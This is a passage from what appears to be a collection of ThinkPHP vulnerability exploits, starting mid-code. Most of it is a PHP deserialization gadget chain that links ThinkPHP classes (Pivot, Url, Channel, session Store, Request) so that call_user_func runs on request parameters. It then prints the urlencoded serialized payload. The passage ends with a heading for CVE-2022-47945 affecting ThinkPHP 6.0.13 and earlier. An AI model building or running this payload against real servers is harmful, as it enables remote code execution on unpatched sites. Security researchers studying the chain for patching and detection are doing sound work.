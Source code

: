 ```bash
            $this->route = $route;
            $this->app = new App();
        }
    }
}

namespace think\log {
    class Channel
    {
        protected $lazy = false;
        protected $logger;
        protected $log = [];

        public function __construct($logger)
        {
            $this->logger = $logger;
        }
    }
}

namespace think\session {
    class Store
    {
        protected $data;
        protected $serialize = ["call_user_func"];
        protected $id = "";

        public function __construct($data)
        {
            $this->data = [$data, "param"];
        }
    }
}

namespace {
    $request = new think\Request();         //  param
    $store = new think\session\Store($request);     // save
    $channel = new think\log\Channel($store);     // __call
    $url = new think\route\Url($channel);   // __toString
    $model = new think\model\Pivot($url);   // __destruct
    echo urlencode(serialize($model));
}
```

## CVE-2022-47945

### 影响范围：

thinkphp<=6.0.13
